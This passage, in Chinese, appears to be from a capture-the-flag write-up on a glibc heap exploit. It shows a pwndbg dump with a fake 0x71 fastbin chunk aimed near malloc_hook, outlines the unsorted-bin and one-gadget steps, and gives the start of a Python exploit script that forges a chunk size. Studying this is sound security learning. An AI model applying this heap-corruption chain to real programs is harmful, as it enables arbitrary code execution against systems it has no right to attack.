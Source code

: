 

我们紧接着需要修正这0x71 FD freelist ，将其伪造成已经释放的块

```
pwndbg> x/40ag 0x555555757000
0x555555757000: 0x0     0x21
0x555555757010: 0x4141414141414141      0x4141414141414141
0x555555757020: 0x4141414141414141      0x71       <----------  free 0x71
0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>
0x555555757040: 0x4141414141414141      0x4141414141414141
0x555555757050: 0x4141414141414141      0x4141414141414141
0x555555757060: 0x4141414141414141      0x4141414141414141
0x555555757070: 0x4141414141414141      0x4141414141414141
0x555555757080: 0x4141414141414141      0x4141414141414141
0x555555757090: 0x4141414141414141      0x61
0x5555557570a0: 0x0     0x0
0x5555557570b0: 0x0     0x0
0x5555557570c0: 0x0     0x0
0x5555557570d0: 0x0     0x0
0x5555557570e0: 0x0     0x0
0x5555557570f0: 0xd0    0x71   <----------     free 0x71
0x555555757100: 0x0     0x0
0x555555757110: 0x0     0x0
0x555555757120: 0x0     0x0
0x555555757130: 0x0     0x0

```



```
libc : 0x7ffff7a23d28 ("malloc_hook")
```

这个时候我们的 FD 已经在 malloc hook 附近，未之后的爆破做准备。

### 第二步

我们只需要通过 释放一块0x71大小的 chunk 就能完成 fix。



### 第三步

利用 unsortebin 的攻击技巧，并使用编辑功能将 onegadet 写入	。



## 分析 exp



分配 `3` 个 `chunk` ，在 `B + 0x78` 处设置 `p64(0x61)` ， 作用是 `fake size` ,用于后面 的 `fastbin attack`



```python
create(0x18,0) # 0x20
create(0xc8,1) # d0
create(0x65,2)  # 0x70

info("create 2 chunk, 0x20, 0xd8")
fake = "A"*0x68
fake += p64(0x61)  ## fake size
edit(1,fake)
info("fake")
```
